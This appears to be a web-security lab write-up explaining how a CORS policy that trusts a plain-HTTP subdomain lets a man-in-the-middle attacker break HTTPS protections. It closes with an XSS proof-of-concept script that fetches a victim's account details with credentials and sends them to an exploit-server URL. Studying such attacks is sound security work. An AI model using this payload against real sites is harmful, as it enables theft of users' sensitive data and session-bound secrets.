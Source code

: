 # Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:

```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

The application responds with:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps:

* The victim user makes any plain HTTP request.
*   The attacker injects a redirection to:

    ```
    http://trusted-subdomain.vulnerable-website.com
    ```
* The victim's browser follows the redirect.
*   The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to:

    ```
    https://vulnerable-website.com
    ```
*   The victim's browser makes the CORS request, including the origin:

    ```
    http://trusted-subdomain.vulnerable-website.com
    ```
* The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
* The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.

**This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure.**

***

#### Proof of Concept via XSS

```html
<script>
    document.location="http://stock.$your-lab-url/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://$your-lab-url/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://$exploit-server-url/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
